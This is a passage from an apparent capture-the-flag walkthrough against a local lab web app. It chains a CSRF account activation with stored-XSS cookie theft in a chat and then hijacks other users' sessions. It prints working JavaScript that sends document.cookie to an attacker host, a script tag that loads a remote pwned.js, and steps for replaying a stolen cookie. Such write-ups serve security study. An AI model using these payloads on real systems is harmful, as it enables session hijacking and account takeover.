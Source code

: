 If we click on the "inactive" button in [http://192.168.0.100/admin/admin.php](http://192.168.0.100/admin/admin.php) to try to activate it, it takes us to another URL where we get the message that we are not authorized to do this.

Apparently, through a GET request, the Administrator user or the user with the corresponding permissions can activate the account only by using that URL. Here, a CSRF vulnerability can occur, so if we manage to get the Administrator user to access that URL, it would automatically activate our account.

What we can do is edit our pwned.js script and change the part where we request the cookie, as we cannot reuse it, and put the URL there, like this:

```javascript
var request = new XMLHttpRequest();
request.open('GET', 'http://192.168.0.100/admin/admin.php?id=11&status=active');
request.send();
```

This way, the Administrator user makes a request without realizing it to the URL, and it automatically activates our account. Now, what we have to do is set up our server with Python again and wait for the request to be made.

Our script worked, and we see that our account is active (Samuel Lamotte). Now, we log in with our slamotte user and can submit the report to get paid 750 euros. But it's not that easy because now we need them to accept our report.

We can see that there is a chat on our panel, and if we analyze the users in this chat, we can determine their roles in [http://192.168.0.100/admin/admin.php](http://192.168.0.100/admin/admin.php). Therefore, we can try to steal the cookie from one of these users, just like we did previously with our script.

```javascript
var request = new XMLHttpRequest(); 
request.open('GET', 'http://attackip/?cookie=' + document.cookie); 
request.send();
```

Next, we will send a message in that chat with the following (assuming that the chat also has an XSS vulnerability):

```html
<script src="http://attackip/pwned.js"></script>
```

Now, we wait for a response on our end.

We see several responses, and it seems that there are three users and we have their session cookies. One of these

 must be the administrator that we previously stole from, so let's try to log in with one of the other cookies since we were unable to do so with the administrator's account. We will repeat the cookie replacement process:

We press the Ctrl+Shift+C keys and replace the "value" values in "Storage" with the cookie that we obtained, and then we reload the page.

Now, we are logged in as the user Manon Riviera, and we have a new option in this user's panel, which is our report waiting to be validated. Since we are logged in as this user, we will validate the report.
